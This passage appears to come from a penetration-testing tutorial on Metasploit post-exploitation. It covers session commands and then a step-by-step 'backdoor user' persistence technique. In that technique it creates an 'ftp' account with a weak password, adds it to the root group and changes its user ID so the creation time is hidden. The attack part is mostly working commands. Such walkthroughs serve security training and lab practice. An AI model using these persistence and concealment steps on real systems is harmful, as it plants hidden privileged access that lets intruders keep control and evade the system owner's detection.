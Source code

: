 Put the session in the background:

```bash
background
```

Upgrade the session again:

```bash
sessions -u 3
```

List sessions:

```bash
sessions
```

Switch to session 4:

```bash
sessions 4
```

Check the current user ID:

```bash
getuid
```

### Manual Persistence (Backdoor User)

We can manually create a backdoor user that will allow us to access the system via SSH. This only works if the target has SSH or another remote access protocol running.

Open a shell:

```bash
shell
/bin/bash -i
```

View the current user information:

```bash
whoami
```

Add a backdoor user (`ftp`), assign a password, and add them to the **root** group:

```bash
useradd -m ftp -s /bin/bash
passwd ftp
# Enter password: 123
cat /etc/passwd
usermod -aG root ftp
groups ftp
```

Change the user ID to obscure the creation time:

```bash
usermod -u 15 ftp
cat /etc/passwd
```
